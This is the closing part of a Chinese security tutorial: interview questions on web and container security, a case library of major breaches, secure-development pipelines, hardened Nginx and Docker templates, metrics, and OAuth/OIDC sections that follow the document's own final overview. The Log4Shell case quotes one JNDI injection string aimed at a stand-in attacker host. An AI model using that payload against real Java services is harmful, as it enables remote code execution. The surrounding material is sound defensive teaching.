### Q9：什么是 XSS？如何防御？

**答案要点：**
- XSS（Cross-Site Scripting）是注入恶意脚本到网页中的攻击
- 三种类型：存储型、反射型、DOM 型
- 防御措施：
  1. 输出编码（HTML 实体编码）
  2. Content Security Policy（CSP）
  3. HttpOnly Cookie
  4. 输入验证
  5. 使用现代框架（React/Vue 自动转义）

### Q10：什么是 CSRF？为什么 JWT 天然免疫？

**答案要点：**
- CSRF（Cross-Site Request Forgery）是利用浏览器自动发送 Cookie 的特性，诱使用户执行非预期操作
- JWT 天然免疫的原因：
  1. JWT 通过 Authorization Header 传递，不是 Cookie
  2. 浏览器不会自动在跨站请求中添加 Authorization Header
  3. 攻击者无法获取用户的 JWT（除非通过 XSS）

### Q11：什么是路径遍历？如何防御？

**答案要点：**
- 路径遍历是通过 `../` 等特殊字符访问受限目录之外文件的攻击
- 防御措施：
  1. 输入验证（检查 `../`、Null 字节）
  2. `path.resolve()` 将相对路径转为绝对路径
  3. 前缀检查（确保路径在根目录内）
  4. `fs.realpath()` 解析符号链接
  5. 使用白名单限制可访问的目录

### Q12：什么是 SSRF？如何防御？

**答案要点：**
- SSRF（Server-Side Request Forgery）是诱使服务器向内部网络发起请求的攻击
- 防御措施：
  1. URL 白名单（只允许访问指定域名）
  2. 禁止内网 IP（127.0.0.1, 10.x, 192.168.x）
  3. DNS 解析检查（解析后再次验证 IP）
  4. 禁止或限制重定向
  5. 使用代理网关隔离内部网络

## P.4 容器安全

### Q13：为什么容器应该以非 root 用户运行？

**答案要点：**
- 容器共享宿主机内核，root 用户有更高的权限
- 如果容器以 root 运行且存在漏洞，攻击者可能：
  1. 修改容器内的系统文件
  2. 访问宿主机资源
  3. 容器逃逸，控制宿主机
- 非 root 用户限制了攻击者的能力，即使容器被攻破，影响也有限

### Q14：什么是 Seccomp？

**答案要点：**
- Seccomp（Secure Computing Mode）是 Linux 内核的安全特性
- 限制进程可以使用的系统调用（syscall）
- Docker 默认启用 Seccomp，禁止约 44 个危险的系统调用
- 可以自定义 Seccomp 配置文件，进一步限制
- 示例：禁止 mount、reboot、kexec_load 等

### Q15：什么是 Linux Capabilities？

**答案要点：**
- Linux Capabilities 将 root 权限细分为多个独立的权限单元
- 例如：CAP_NET_BIND_SERVICE（绑定 1024 以下端口）、CAP_SYS_ADMIN（系统管理）
- Docker 默认赋予容器部分 Capabilities
- 最佳实践：`--cap-drop=ALL --cap-add=XXX`（移除所有，按需添加）

## P.5 安全设计

### Q16：什么是纵深防御（Defense in Depth）？

**答案要点：**
- 纵深防御是多层安全防护的策略
- 即使一层被突破，还有其他层保护
- AI-CLI-Mobile 的纵深防御：
  1. 传输层：HTTPS/WSS
  2. 认证层：JWT + bcrypt
  3. 授权层：RBAC + 归属检查
  4. 应用层：输入验证 + 路径遍历防护
  5. 容器层：非 root + 只读文件系统
  6. 审计层：全量审计日志

### Q17：什么是最小权限原则（Principle of Least Privilege）？

**答案要点：**
- 每个组件只拥有完成其工作所需的最小权限
- 应用：
  1. 容器：非 root、只读文件系统、最小 Capabilities
  2. 用户：RBAC 角色分离
  3. API：按需暴露接口
  4. 数据库：只读/只写权限分离
  5. 网络：最小端口暴露

### Q18：如何设计安全的 API？

**答案要点：**
1. 使用 HTTPS
2. 实现认证（JWT/OAuth）
3. 实现授权（RBAC/ABAC）
4. 输入验证（类型、长度、格式）
5. 速率限制
6. 错误处理（不暴露内部信息）
7. 日志记录
8. CORS 配置
9. 安全响应头
10. API 版本控制

---

# 附录 Q：安全事件案例库

## Q.1 案例：2017 Equifax 数据泄露

```mermaid
graph LR
    subgraph 事件["Equifax 数据泄露"]
        A1["1.47 亿用户数据泄露"]
        A2["原因：Apache Struts 漏洞未修复"]
        A3["教训：及时更新依赖"]
    end

    style 事件 fill:#ffcdd2,stroke:#c62828
```

**事件详情：**
- 时间：2017年
- 影响：1.47亿用户的个人信息（姓名、SSN、生日、地址）
- 原因：Apache Struts 框架的已知漏洞（CVE-2017-5638）未及时修复
- 漏洞披露后 2 个月才被利用
- 损失：超过 7 亿美元

**教训：**
1. 及时更新依赖和框架
2. 建立漏洞响应流程
3. 定期安全扫描

## Q.2 案例：2019 Capital One 数据泄露

```mermaid
graph LR
    subgraph 事件["Capital One 数据泄露"]
        B1["1 亿用户数据泄露"]
        B2["原因：AWS 配置错误 + SSRF"]
        B3["教训：云安全配置"]
    end

    style 事件 fill:#ffcdd2,stroke:#c62828
```

**事件详情：**
- 时间：2019年
- 影响：1亿用户的个人信息和信用记录
- 原因：
  1. AWS WAF 配置错误
  2. SSRF 漏洞获取了 IAM 临时凭证
  3. IAM 角色权限过大
- 损失：超过 1.5 亿美元

**教训：**
1. 最小权限原则
2. 定期审计云配置
3. SSRF 防护

## Q.3 案例：2020 SolarWinds 供应链攻击

```mermaid
graph LR
    subgraph 事件["SolarWinds 供应链攻击"]
        C1["影响 18000+ 组织"]
        C2["原因：构建系统被入侵"]
        C3["教训：供应链安全"]
    end

    style 事件 fill:#ffcdd2,stroke:#c62828
```

**事件详情：**
- 时间：2020年
- 影响：18000+ 组织，包括美国政府机构
- 原因：
  1. 攻击者入侵了 SolarWinds 的构建系统
  2. 在 Orion 软件更新中注入恶意代码
  3. 恶意代码通过正常更新渠道分发

**教训：**
1. 供应链安全审计
2. 代码签名验证
3. 构建系统安全

## Q.4 案例：2021 Log4Shell 漏洞

```mermaid
graph LR
    subgraph 事件["Log4Shell 漏洞"]
        D1["影响几乎所有 Java 应用"]
        D2["原因：Log4j JNDI 注入"]
        D3["教训：依赖安全管理"]
    end

    style 事件 fill:#ffcdd2,stroke:#c62828
```

**事件详情：**
- 时间：2021年12月
- CVE：CVE-2021-44228
- 影响：几乎所有使用 Log4j 的 Java 应用
- 原因：Log4j 的 JNDI 查找功能允许远程代码执行
- 攻击方式：`${jndi:ldap://evil.com/exploit}`

**教训：**
1. 定期扫描依赖漏洞
2. 建立漏洞应急响应流程
3. 使用软件物料清单（SBOM）

## Q.5 案例：2023 23andMe 数据泄露

```mermaid
graph LR
    subgraph 事件["23andMe 数据泄露"]
        E1["690 万用户数据泄露"]
        E2["原因：凭据填充攻击"]
        E3["教训：密码安全 + MFA"]
    end

    style 事件 fill:#ffcdd2,stroke:#c62828
```

**事件详情：**
- 时间：2023年
- 影响：690 万用户的基因数据
- 原因：
  1. 攻击者使用其他网站泄露的密码（凭据填充）
  2. 用户在多个网站使用相同密码
  3. 23andMe 没有强制 MFA

**教训：**
1. 强制多因素认证（MFA）
2. 检测凭据填充攻击
3. 教育用户使用唯一密码

---

# 附录 R：安全开发流程

## R.1 安全开发生命周期（SDL）

```mermaid
graph LR
    subgraph SDL["安全开发生命周期"]
        S1["需求阶段<br/>安全需求分析"]
        S2["设计阶段<br/>威胁建模"]
        S3["开发阶段<br/>安全编码"]
        S4["测试阶段<br/>安全测试"]
        S5["部署阶段<br/>安全配置"]
        S6["运维阶段<br/>监控响应"]
    end

    S1 --> S2 --> S3 --> S4 --> S5 --> S6
    S6 -->|反馈| S1

    style S1 fill:#e3f2fd,stroke:#1565c0
    style S2 fill:#e8f5e9,stroke:#2e7d32
    style S3 fill:#fff3e0,stroke:#e65100
    style S4 fill:#f3e5f5,stroke:#6a1b9a
    style S5 fill:#ffcdd2,stroke:#c62828
    style S6 fill:#c8e6c9,stroke:#2e7d32
```

### 各阶段安全活动

| 阶段 | 安全活动 | 输出物 |
|------|---------|--------|
| 需求 | 安全需求分析、合规要求 | 安全需求文档 |
| 设计 | 威胁建模（STRIDE）、架构评审 | 威胁模型、安全设计文档 |
| 开发 | 安全编码规范、代码审查 | 安全代码、审查记录 |
| 测试 | SAST、DAST、渗透测试 | 安全测试报告 |
| 部署 | 安全配置、镜像扫描 | 安全配置清单 |
| 运维 | 监控、日志、事件响应 | 安全运维手册 |

## R.2 CI/CD 安全集成

```mermaid
graph TB
    subgraph CICD["CI/CD 安全集成"]
        C1["代码提交"]
        C2["静态分析<br/>ESLint Security"]
        C3["依赖扫描<br/>npm audit"]
        C4["单元测试<br/>安全测试用例"]
        C5["镜像构建<br/>多阶段构建"]
        C6["镜像扫描<br/>Trivy"]
        C7["Dockerfile 检查<br/>Hadolint"]
        C8["部署"]
    end

    C1 --> C2 --> C3 --> C4 --> C5 --> C6 --> C7 --> C8

    style C1 fill:#e3f2fd,stroke:#1565c0
    style C2 fill:#e8f5e9,stroke:#2e7d32
    style C3 fill:#e8f5e9,stroke:#2e7d32
    style C4 fill:#e8f5e9,stroke:#2e7d32
    style C5 fill:#fff3e0,stroke:#e65100
    style C6 fill:#fff3e0,stroke:#e65100
    style C7 fill:#fff3e0,stroke:#e65100
    style C8 fill:#c8e6c9,stroke:#2e7d32
```

### GitHub Actions 安全流水线示例

```yaml
name: Security Pipeline

on: [push, pull_request]

jobs:
  security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # 1. 依赖漏洞扫描
      - name: npm audit
        run: npm audit --production --audit-level=high

      # 2. 静态代码分析
      - name: ESLint Security
        run: npx eslint --ext .ts,.tsx --config .eslintrc.security.js .

      # 3. 单元测试（包含安全测试）
      - name: Security Tests
        run: npm run test:security

      # 4. Docker 镜像构建
      - name: Build Docker Image
        run: docker build -t app:${{ github.sha }} -f docker/Dockerfile .

      # 5. 镜像漏洞扫描
      - name: Trivy Scan
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: app:${{ github.sha }}
          severity: 'CRITICAL,HIGH'
          exit-code: '1'

      # 6. Dockerfile 检查
      - name: Hadolint
        uses: hadolint/hadolint-action@v3.1.0
        with:
          dockerfile: docker/Dockerfile
```

## R.3 安全测试策略

```mermaid
graph TB
    subgraph 测试["安全测试策略"]
        subgraph 静态["静态测试（SAST）"]
            S1["代码审查"]
            S2["模式匹配"]
            S3["数据流分析"]
        end

        subgraph 动态["动态测试（DAST）"]
            D1["渗透测试"]
            D2["模糊测试"]
            D3["配置审计"]
        end

        subgraph 依赖["依赖测试"]
            DE1["漏洞扫描"]
            DE2["许可证检查"]
            DE3["版本分析"]
        end
    end

    style 静态 fill:#e3f2fd,stroke:#1565c0
    style 动态 fill:#e8f5e9,stroke:#2e7d32
    style 依赖 fill:#fff3e0,stroke:#e65100
```

| 测试类型 | 工具 | 频率 | 检测内容 |
|---------|------|------|----------|
| SAST | ESLint Security, Semgrep | 每次提交 | 代码安全模式 |
| DAST | OWASP ZAP | 每周/每月 | 运行时漏洞 |
| 依赖扫描 | npm audit, Snyk | 每次构建 | 依赖漏洞 |
| 镜像扫描 | Trivy, Grype | 每次构建 | 镜像漏洞 |
| 渗透测试 | 手动 + 工具 | 每季度 | 综合安全评估 |

---

# 附录 S：安全资源汇总

## S.1 在线学习资源

| 资源 | 类型 | 难度 | 说明 |
|------|------|------|------|
| OWASP WebGoat | 实战平台 | ⭐⭐ | Web 安全练习 |
| OWASP Juice Shop | 实战平台 | ⭐⭐⭐ | 现代 Web 安全练习 |
| HackTheBox | 实战平台 | ⭐⭐⭐⭐ | 渗透测试练习 |
| PortSwigger Academy | 教程 | ⭐⭐⭐ | Web 安全教程 |
| CryptoZombies | 教程 | ⭐⭐ | 密码学基础 |
| OverTheWire | 实战平台 | ⭐⭐⭐ | Linux 安全练习 |

## S.2 安全社区

| 社区 | 说明 |
|------|------|
| OWASP | 开放 Web 应用安全项目 |
| CVE | 通用漏洞披露 |
| NVD | 国家漏洞数据库 |
| HackerOne | 漏洞赏金平台 |
| Bugcrowd | 漏洞赏金平台 |
| Security StackExchange | 安全问答社区 |

## S.3 安全博客和播客

| 资源 | 类型 | 说明 |
|------|------|------|
| Krebs on Security | 博客 | 安全新闻和分析 |
| Schneier on Security | 博客 | 安全思考和评论 |
| The Hacker News | 新闻 | 安全新闻 |
| Dark Reading | 新闻 | 安全行业新闻 |
| Security Now | 播客 | 安全技术讨论 |
| Darknet Diaries | 播客 | 真实安全事件故事 |

---

> 📖 **全篇完结**。感谢你的耐心阅读！安全是一个深广的领域，本篇只是冰山一角。希望这些知识能帮助你在开发中建立安全意识，写出更安全的代码。记住：安全不是功能，而是属性——它应该融入到开发的每一个环节中。

---

# 附录 T：安全配置模板

## T.1 Nginx 安全配置模板

```nginx
# AI-CLI-Mobile Nginx 安全配置

server {
    listen 443 ssl http2;
    server_name your-domain.com;

    # === TLS 配置 ===
    ssl_certificate /etc/letsencrypt/live/your-domain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/your-domain.com/privkey.pem;
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384;
    ssl_prefer_server_ciphers off;
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 1d;
    ssl_session_tickets off;

    # OCSP Stapling
    ssl_stapling on;
    ssl_stapling_verify on;
    resolver 8.8.8.8 8.8.4.4 valid=300s;
    resolver_timeout 5s;

    # === 安全响应头 ===
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header X-XSS-Protection "0" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; connect-src 'self' wss://your-domain.com; font-src 'self'; object-src 'none'; frame-ancestors 'none'" always;

    # === 请求限制 ===
    client_max_body_size 10m;
    client_body_timeout 10s;
    client_header_timeout 10s;
    keepalive_timeout 65s;
    send_timeout 10s;

    # === 隐藏服务器信息 ===
    server_tokens off;
    more_clear_headers Server;

    # === 代理配置 ===
    location / {
        proxy_pass http://localhost:3000;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "upgrade";
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;

        # 代理超时
        proxy_connect_timeout 60s;
        proxy_send_timeout 60s;
        proxy_read_timeout 60s;
    }

    # === 静态文件缓存 ===
    location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg|woff|woff2)$ {
        proxy_pass http://localhost:3000;
        expires 7d;
        add_header Cache-Control "public, immutable";
    }

    # === 禁止访问隐藏文件 ===
    location ~ /\. {
        deny all;
        access_log off;
        log_not_found off;
    }
}

# HTTP 重定向到 HTTPS
server {
    listen 80;
    server_name your-domain.com;
    return 301 https://$server_name$request_uri;
}
```

## T.2 Docker Compose 安全配置模板

```yaml
# AI-CLI-Mobile Docker Compose 安全配置

version: '3.8'

services:
  ai-cli-mobile:
    image: ai-cli-mobile:latest
    build:
      context: ..
      dockerfile: docker/Dockerfile
    container_name: ai-cli-mobile

    # 安全配置
    security_opt:
      - no-new-privileges:true    # 禁止提权
    read_only: true                # 只读文件系统
    tmpfs:
      - /tmp:noexec,nosuid,size=100m  # 临时文件系统

    # 用户配置
    user: "1000:1000"              # 非 root 用户

    # Capabilities
    cap_drop:
      - ALL                        # 移除所有 Capabilities
    cap_add:
      - NET_BIND_SERVICE           # 只添加需要的

    # 资源限制
    deploy:
      resources:
        limits:
          cpus: '1.0'
          memory: 512M
          pids: 100                # 限制进程数
        reservations:
          cpus: '0.5'
          memory: 256M

    # 端口映射
    ports:
      - "127.0.0.1:3000:3000"    # 只绑定本地

    # 环境变量
    environment:
      - NODE_ENV=production
      - JWT_SECRET_FILE=/run/secrets/jwt_secret
      - JWT_REFRESH_SECRET_FILE=/run/secrets/jwt_refresh_secret
      - ADMIN_PASSWORD_FILE=/run/secrets/admin_password

    # Secrets
    secrets:
      - jwt_secret
      - jwt_refresh_secret
      - admin_password

    # 卷挂载
    volumes:
      - app-data:/app/data         # 持久化数据
      - app-logs:/app/logs         # 日志

    # 健康检查
    healthcheck:
      test: ["CMD", "wget", "--no-verbose", "--tries=1", "--spider", "http://localhost:3000/health"]
      interval: 30s
      timeout: 10s
      retries: 3
      start_period: 10s

    # 重启策略
    restart: unless-stopped

    # 日志配置
    logging:
      driver: json-file
      options:
        max-size: "10m"
        max-file: "3"

    # 网络
    networks:
      - internal

    # 只读挂载（不可写）
    read_only: true

# Secrets
secrets:
  jwt_secret:
    file: ./secrets/jwt_secret.txt
  jwt_refresh_secret:
    file: ./secrets/jwt_refresh_secret.txt
  admin_password:
    file: ./secrets/admin_password.txt

# 卷
volumes:
  app-data:
  app-logs:

# 网络
networks:
  internal:
    driver: bridge
    internal: true  # 不连接外部网络
```

## T.3 环境变量安全配置

```bash
# .env 安全配置模板

# === 服务配置 ===
NODE_ENV=production
PORT=3000
HOST=0.0.0.0

# === JWT 密钥（使用 openssl rand -hex 32 生成） ===
JWT_SECRET=<64字符随机十六进制字符串>
JWT_REFRESH_SECRET=<64字符随机十六进制字符串>

# === 管理员配置 ===
ADMIN_USERNAME=admin
ADMIN_PASSWORD=<强密码，至少16位>

# === 项目配置 ===
PROJECT_ROOT=/app/workspace

# === 日志配置 ===
LOG_LEVEL=info

# === 速率限制 ===
RATE_LIMIT_MAX=100
RATE_LIMIT_WINDOW=60000

# === 文件限制 ===
MAX_FILE_SIZE=1048576
```

## T.4 安全响应头配置

```typescript
// Fastify 安全响应头插件

import { FastifyInstance } from 'fastify'
import fp from 'fastify-plugin'

async function securityHeaders(fastify: FastifyInstance) {
  fastify.addHook('onSend', async (request, reply) => {
    // HSTS
    reply.header(
      'Strict-Transport-Security',
      'max-age=31536000; includeSubDomains'
    )

    // 防止 MIME 嗅探
    reply.header('X-Content-Type-Options', 'nosniff')

    // 防止点击劫持
    reply.header('X-Frame-Options', 'DENY')

    // XSS 保护（现代浏览器用 CSP 替代）
    reply.header('X-XSS-Protection', '0')

    // Referrer 策略
    reply.header('Referrer-Policy', 'strict-origin-when-cross-origin')

    // 权限策略
    reply.header(
      'Permissions-Policy',
      'camera=(), microphone=(), geolocation=()'
    )

    // CSP
    reply.header(
      'Content-Security-Policy',
      [
        "default-src 'self'",
        "script-src 'self'",
        "style-src 'self' 'unsafe-inline'",
        "img-src 'self' data: https:",
        "connect-src 'self' wss:",
        "font-src 'self'",
        "object-src 'none'",
        "frame-ancestors 'none'",
      ].join('; ')
    )

    // 隐藏服务器信息
    reply.removeHeader('X-Powered-By')
  })
}

export default fp(securityHeaders)
```

## T.5 .gitignore 安全配置

```gitignore
# === 安全相关 ===
.env
.env.local
.env.*.local
*.pem
*.key
*.cert
*.p12
*.pfx
secrets/

# === 敏感数据 ===
.users.json
.audit.log
*.log

# === 依赖 ===
node_modules/

# === 构建产物 ===
dist/
build/

# === 编辑器 ===
.vscode/
.idea/
*.swp
*.swo

# === 操作系统 ===
.DS_Store
Thumbs.db

# === Docker ===
.docker/

# === 测试覆盖率 ===
coverage/
.nyc_output/
```

---

> 📖 **附录完毕**。这些配置模板可以直接用于生产环境，但请根据实际情况调整。安全配置不是一成不变的，需要根据威胁环境和技术发展持续更新。

---

# 附录 U：安全度量指标

## U.1 安全度量框架

```mermaid
graph TB
    subgraph 度量["安全度量指标"]
        subgraph 预防["预防指标"]
            P1["安全培训覆盖率"]
            P2["代码审查覆盖率"]
            P3["安全测试覆盖率"]
            P4["依赖漏洞修复时间"]
        end

        subgraph 检测["检测指标"]
            D1["漏洞发现时间"]
            D2["误报率"]
            D3["检测覆盖率"]
            D4["告警响应时间"]
        end

        subgraph 响应["响应指标"]
            R1["事件响应时间"]
            R2["修复时间"]
            R3["影响范围"]
            R4["复发率"]
        end
    end

    style 预防 fill:#e3f2fd,stroke:#1565c0
    style 检测 fill:#fff3e0,stroke:#e65100
    style 响应 fill:#ffcdd2,stroke:#c62828
```

### 关键安全指标（KPI）

| 指标 | 目标值 | 计算方式 | 重要性 |
|------|--------|---------|--------|
| 漏洞修复时间（MTTR） | < 24小时 | 从发现到修复的时间 | ⭐⭐⭐⭐⭐ |
| 依赖漏洞数量 | 0 高危/严重 | npm audit 结果 | ⭐⭐⭐⭐⭐ |
| 安全测试覆盖率 | > 80% | 安全测试用例/总用例 | ⭐⭐⭐⭐ |
| 代码审查覆盖率 | 100% | 所有 PR 都经过审查 | ⭐⭐⭐⭐ |
| 登录失败率 | < 5% | 失败次数/总尝试次数 | ⭐⭐⭐ |
| 审计日志完整性 | 100% | 所有安全事件都有日志 | ⭐⭐⭐⭐⭐ |

## U.2 安全报告模板

```markdown
# 安全月度报告

## 1. 概述
- 报告期间：2024年1月
- 安全事件数：0
- 漏洞修复数：3

## 2. 依赖安全
- 高危漏洞：0
- 中危漏洞：2（已修复）
- 低危漏洞：1（已修复）
- npm audit 结果：通过

## 3. 安全测试
- 测试用例数：45
- 通过率：100%
- 新增测试：5

## 4. 安全事件
- 登录失败事件：12次
- 路径遍历尝试：3次（全部拦截）
- 速率限制触发：2次

## 5. 审计日志
- 总日志条数：1,234
- 日志文件大小：2.5MB
- 异常事件：0

## 6. 改进计划
- [ ] 添加 MFA 支持
- [ ] 升级到 Argon2
- [ ] 添加安全监控告警
```

## U.3 安全仪表盘

```mermaid
graph TB
    subgraph 仪表盘["安全仪表盘"]
        subgraph 实时["实时监控"]
            RT1["当前活跃会话：12"]
            RT2["最近1小时登录失败：3"]
            RT3["最近1小时API请求：456"]
            RT4["速率限制触发：0"]
        end

        subgraph 趋势["趋势分析"]
            TR1["本周登录失败趋势：↓ 下降"]
            TR2["本周API请求趋势：→ 平稳"]
            TR3["漏洞修复趋势：↓ 下降"]
        end

        subgraph 告警["告警状态"]
            AL1["🟢 系统正常"]
            AL2["🟢 无高危漏洞"]
            AL3["🟢 审计日志正常"]
            AL4["🟡 2个中危漏洞待修复"]
        end
    end

    style 实时 fill:#e3f2fd,stroke:#1565c0
    style 趋势 fill:#e8f5e9,stroke:#2e7d32
    style 告警 fill:#fff3e0,stroke:#e65100
```

---

> 📖 **全部附录完毕**。这些度量指标和报告模板可以帮助你持续跟踪和改进系统的安全状态。安全是一个持续改进的过程，定期评估和优化是保持系统安全的关键。

---

# 全文结构总览

## 章节结构

| 章节 | 标题 | 核心内容 |
|------|------|----------|
| 第一章 | 认证基础 | 认证/授权/鉴权、Session vs Token、OAuth 2.0、OIDC |
| 第二章 | JWT 深度解析 | JWT 结构、签名算法、安全风险、项目实现 |
| 第三章 | 密码安全 | 哈希算法、bcrypt 原理、盐值、项目密码处理 |
| 第四章 | 访问控制 | RBAC、ABAC、会话归属检查 |
| 第五章 | Web 安全攻防 | XSS、CSRF、SQL注入、SSRF、路径遍历 |
| 第六章 | 传输安全 | TLS/HTTPS、HSTS、证书管理、WSS |
| 第七章 | 容器安全 | Dockerfile 安全、Seccomp、Capabilities |
| 第八章 | 安全审计 | 审计日志设计、audit.ts 实现、事件响应 |

## 附录结构

| 附录 | 标题 | 内容 |
|------|------|------|
| A | 安全开发检查清单 | 认证、输入、传输、容器检查清单 |
| B | 常见安全漏洞速查表 | OWASP Top 10、安全响应头、HTTP状态码 |
| C | 安全工具推荐 | 静态分析、动态分析、容器安全工具 |
| D | 安全事件案例分析 | 暴力破解、路径遍历、Token泄露案例 |
| E | 安全编码最佳实践 | 输入验证、错误处理、密码处理、路径处理 |
| F | 安全术语表 | 30+ 安全术语解释 |
| G | 深入理解加密算法 | 对称/非对称加密、哈希、数字签名 |
| H | 项目安全架构深度分析 | 架构全景、认证流程、文件系统安全 |
| I | 安全架构演进路线图 | 当前状态、短期/中期/长期改进 |
| J | 安全编码规范 | TypeScript 安全编码、代码审查检查项 |
| K | 参考资源 | 安全标准、工具、推荐阅读 |
| L | 安全架构实战演练 | 登录系统、文件上传、速率限制、日志系统 |
| M | 安全威胁建模 | STRIDE 模型、攻击面分析 |
| N | 安全运维最佳实践 | 密钥管理、备份恢复、监控告警 |
| O | 安全知识测验 | 选择题、判断题、简答题 |
| P | 常见安全面试题 | 认证、密码、Web安全、容器安全、设计 |
| Q | 安全事件案例库 | Equifax、Capital One、SolarWinds、Log4Shell |
| R | 安全开发流程 | SDL、CI/CD安全集成、测试策略 |
| S | 安全资源汇总 | 学习资源、社区、博客播客 |
| T | 安全配置模板 | Nginx、Docker Compose、环境变量、响应头 |
| U | 安全度量指标 | KPI、报告模板、仪表盘 |

---

> 📖 **本篇总计 8 章 + 21 个附录**，覆盖了从认证基础到安全运维的全方位知识。无论你是初学者还是有经验的开发者，都能从中找到有价值的内容。安全之路漫漫，愿你我共同守护！
---

## 18. OAuth 2.0 实战

### 18.1 OAuth 2.0 Authorization Code Flow 完整序列图

```mermaid
sequenceDiagram
    participant U as 用户（浏览器）
    participant C as 客户端应用
    participant A as 授权服务器
    participant R as 资源服务器

    Note over U,R: 1. 用户发起授权请求
    U->>C: 点击"使用第三方登录"
    C->>U: 302 重定向到授权服务器
    Note over U: URL: /authorize?<br/>response_type=code<br/>&client_id=xxx<br/>&redirect_uri=xxx<br/>&scope=openid profile<br/>&state=random123

    Note over U,R: 2. 用户登录并授权
    U->>A: 访问授权页面
    A->>U: 显示登录/授权页面
    U->>A: 输入凭据 + 同意授权

    Note over U,R: 3. 授权码回调
    A->>U: 302 重定向回客户端
    Note over U: URL: redirect_uri?<br/>code=AUTH_CODE&state=random123
    U->>C: 访问回调 URL（带授权码）

    Note over U,R: 4. 用授权码换 Token
    C->>A: POST /token<br/>grant_type=authorization_code<br/>&code=AUTH_CODE<br/>&client_id=xxx<br/>&client_secret=xxx<br/>&redirect_uri=xxx
    A->>C: 返回 Token 响应
    Note over C: {<br/>  "access_token": "xxx",<br/>  "token_type": "Bearer",<br/>  "expires_in": 3600,<br/>  "refresh_token": "xxx",<br/>  "id_token": "xxx"<br/>}

    Note over U,R: 5. 访问受保护资源
    C->>R: GET /api/userinfo<br/>Authorization: Bearer access_token
    R->>R: 验证 Access Token
    R->>C: 返回用户数据
    C->>U: 展示用户信息
```

### 18.2 PKCE 增强安全（适用于公开客户端）

```mermaid
sequenceDiagram
    participant U as 用户
    participant C as 公开客户端（SPA/移动端）
    participant A as 授权服务器

    Note over C: 生成 code_verifier（随机字符串）
    Note over C: 计算 code_challenge<br/>= BASE64URL(SHA256(code_verifier))

    C->>U: 重定向到授权服务器
    Note over U: URL 包含:<br/>code_challenge=xxx<br/>&code_challenge_method=S256
    U->>A: 授权请求
    A->>U: 返回授权码
    U->>C: 带授权码回调

    C->>A: POST /token<br/>code=AUTH_CODE<br/>&code_verifier=xxx
    Note over A: 服务端验证:<br/>SHA256(code_verifier) == code_challenge
    A->>C: 返回 Token
```

### 18.3 OAuth 2.0 各种授权模式

| 模式 | 适用场景 | 安全性 | 是否需要 Client Secret |
|------|---------|--------|----------------------|
| **Authorization Code** | 服务端 Web 应用 | 高 | ✅ 是 |
| **Authorization Code + PKCE** | SPA、移动端 | 高 | ❌ 否 |
| **Client Credentials** | 服务间通信（M2M） | 高 | ✅ 是 |
| **Device Code** | 智能电视、IoT 设备 | 中 | ❌ 否 |
| **~~Implicit~~** | ~~SPA~~（已弃用） | 低 | ❌ 否 |
| **~~Resource Owner Password~~** | ~~遗留系统~~（已弃用） | 低 | ✅ 是 |

---

## 19. OpenID Connect 详解

### 19.1 OIDC 与 OAuth 2.0 的关系

```mermaid
graph TB
    A[OAuth 2.0] -->|"只解决授权问题"| B["谁能访问什么资源"]
    C[OpenID Connect] -->|"在 OAuth 2.0 之上增加"| D["身份认证：你是谁"]
    C --> E[ID Token]
    C --> F[UserInfo Endpoint]
    C --> G[Discovery]
    A -->|基础协议| C
```

### 19.2 三种 Token 详解

| Token | 用途 | 格式 | 包含信息 | 生命周期 |
|-------|------|------|---------|---------|
| **ID Token** | 身份认证 | JWT | 用户身份信息（sub, name, email 等） | 短（5-60分钟） |
| **Access Token** | 访问资源 | JWT 或不透明字符串 | 权限范围（scope）、过期时间 | 短（1小时左右） |
| **Refresh Token** | 刷新 Access Token | 不透明字符串 | 无（仅授权服务器识别） | 长（天/月/年） |

**ID Token 解码示例：**

```javascript
// ID Token 是一个 JWT，由三部分组成
const idToken = 'eyJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwczovL2F1dGguZXhhbXBsZS5jb20iLCJzdWIiOiJ1c2VyMTIzIiwiYXVkIjoiY2xpZW50X2lkIiwiZXhwIjoxNzE5NTAwMDAwLCJpYXQiOjE3MTk0OTAwMDAsIm5hbWUiOiLlvKDkuIkiLCJlbWFpbCI6InVzZXJAZXhhbXBsZS5jb20iLCJwaWN0dXJlIjoiaHR0cHM6Ly9leGFtcGxlLmNvbS9hdmF0YXIucG5nIn0.signature';

// Header (第一部分)
{
  "alg": "RS256",
  "typ": "JWT"
}

// Payload (第二部分)
{
  "iss": "https://auth.example.com",   // 签发者
  "sub": "user123",                     // 用户唯一标识
  "aud": "client_id",                   // 目标受众
  "exp": 1719500000,                    // 过期时间
  "iat": 1719490000,                    // 签发时间
  "name": "小明",                       // 用户姓名
  "email": "user@example.com",         // 邮箱
  "picture": "https://example.com/avatar.png"  // 头像
}
```

### 19.3 Token 刷新流程

```mermaid
sequenceDiagram
    participant C as 客户端
    participant A as 授权服务器
    participant R as 资源服务器

    Note over C: Access Token 过期
    C->>R: GET /api/data (过期的 Token)
    R->>C: 401 Unauthorized

    Note over C: 使用 Refresh Token 刷新
    C->>A: POST /token<br/>grant_type=refresh_token<br/>&refresh_token=xxx<br/>&client_id=xxx
    A->>A: 验证 Refresh Token
    A->>C: {<br/>  "access_token": "new_token",<br/>  "refresh_token": "new_refresh_token",<br/>  "expires_in": 3600<br/>}

    C->>R: GET /api/data (新 Token)
    R->>C: 200 OK (数据)
```

---

## 20. API Key 认证方式

### 20.1 三种传递方式对比

| 方式 | 示例 | 安全性 | 适用场景 |
